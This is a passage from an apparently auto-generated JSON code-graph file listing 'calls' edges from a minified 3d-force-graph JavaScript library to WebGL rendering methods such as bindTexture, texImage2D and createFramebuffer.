"static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameterf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "activeTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPrimaries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPrimaries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subarray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearLayerUpdates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subarray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearLayerUpdates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2DMultisampleEXT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderbufferStorageMultisampleEXT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderbufferStorageMultisample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderbufferStorage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderbufferStorageMultisample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderbufferStorageMultisampleEXT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderbufferStorage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2DMultisampleEXT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2DMultisampleEXT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransfer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "activeTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPrimaries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPrimaries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texStorage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderbufferStorageMultisample"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unbindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unbindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unbindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unbindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blitFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invalidateFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invalidateFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invalidateFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransfer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", 